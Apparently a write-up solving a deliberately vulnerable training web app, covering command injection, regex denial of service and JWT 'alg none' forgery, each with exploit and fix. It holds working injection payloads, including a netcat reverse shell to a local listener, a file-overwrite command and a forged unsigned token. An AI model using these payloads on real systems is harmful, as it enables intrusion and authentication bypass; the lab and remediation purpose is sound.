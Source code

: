 # CMD
## Exploit
```50;touch AAAAAAA;``` . 
really makes the file, so execution is possible . 

For a real exploit, we first need to listen to a certain port on our own system:  
```nc -lvp 4444``` . 
Then in the payload we will use netcat to connect to this listening port and initiate a shell:  
```50; nc 127.0.0.1 4444 -e /bin/bash;``` . 

If you do not have nc but you just want to check if your code execution works, you could for example overwrite the index.html:
```;echo "<html>rishu's solution</html>" > templates/index.html;``` . 

## Fix
change:  
```    os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')``` . 
to:  
```
    whitelist = {"50","150"}
    if sizeImg in whitelist:
        os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')
```  
alternative in php template: escapeshellarg() or escapeshellcmd() in PHP . 


# DoS regex
## Exploit
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa . 
will crash the system

## Fix
replace:  
```    match = re.search(r"^([0-9a-zA-Z]([-.\w]*[0-9a-zA-Z])*@{1}([0-9a-zA-Z][-\w]*[0-9a-zA-Z]\.)+[a-zA-Z]{2,9})$", str(email))```  
with:  
```    match = re.search(r"^([0-9a-zA-Z-.\w])+@{1}([0-9a-zA-Z-\w]+\.)+[a-zA-Z]{2,9}$", str(email))``` . 

So this is not according to the RFC but fixes the issue in the application.  

https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS . 


# JWT
Make sure you have all imports installed if you run the python code locally:  
pip3 install -r requirements.txt . 

Interesting blog post:
https://hackernoon.com/can-timing-attack-be-a-practical-security-threat-on-jwt-signature-ba3c8340dea9

## Exploit
After authentication you receive a JWT where you can swith the algorithm in the header to "None"
{
  "typ":"JWT",
  "alg":"NONE"
}
   
-> ewogICJ0eXAiOiJKV1QiLAogICJhbGciOiJOT05FIgp9 . 
ewogICJ0eXAiOiJKV1QiLAogICJhbGciOiJOT05FIgp9.eyJleHAiOjE1NTMwMDM3MTgsImlhdCI6MTU1MzAwMzQxOCwibmJmIjoxNTUzMDAzNDE4LCJpZGVudGl0eSI6Mn0.  
Open the local storage tab within the browser and replace the original token there.


